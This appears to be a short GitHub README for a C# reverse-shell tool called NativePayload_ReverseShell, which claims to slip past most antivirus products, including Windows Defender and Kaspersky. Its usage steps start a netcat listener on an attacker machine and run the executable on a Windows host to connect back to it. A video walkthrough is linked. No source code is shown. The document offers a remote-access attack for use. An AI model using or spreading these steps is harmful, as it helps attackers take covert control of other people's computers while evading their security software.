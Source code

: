 # NativePayload_ReverseShell
This is Simple C# Source code to Bypass almost "all" AVS, (kaspersky v19, Eset v12 v13 ,Trend-Micro v16, Comodo &amp; Windows Defender Bypassed via this method Very Simple) 

    //// Step 1 (linux Side:192.168.56.1)   : nc -l -p 443 
 
    //// Step 2 (Windows Side:192.168.56.x) : NativePayload_ReverseShell.exe 192.168.56.1 443 
    
Video Step by Step : https://www.youtube.com/watch?v=VkFcy1Dg-pU&feature=youtu.be

